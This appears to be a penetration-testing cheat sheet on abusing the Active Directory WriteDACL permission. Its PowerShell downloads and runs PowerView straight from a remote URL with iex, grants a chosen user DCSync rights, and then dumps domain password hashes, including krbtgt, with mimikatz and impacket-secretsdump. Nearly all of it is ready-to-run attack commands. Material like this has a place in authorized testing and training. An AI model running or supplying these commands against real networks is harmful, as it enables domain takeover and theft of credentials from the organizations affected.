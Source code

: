 # PowerView

Downloadable at [PowerView](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1)

## WriteDACL Permission
The WriteDACL privilege gives a user the ability to add ACLs to an
object. This means that we can add a user to this group and give them DCSync privileges.
**After you have created a new user - Then give him DCSync permission**
````powershell
$pass = convertto-securestring '<password' -asplain -force
$cred = new-object system.management.automation.pscredential('<domain>\<username>',$pass)
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')
Add-ObjectACL -PrincipalIdentity <username> -Credentials $cred -Rights DCSync
````
### DCSyncing Hashes
Since the user has now the required privileges to use DCSync, we can use mimikatz or secretdump to dump password hashes from the DC via:
````powershell
lsadump::dcsync /user:krbtgt
````
````powershell
impacket-secretsdump <domain>\<username>@<IP-ADDRESS>
````
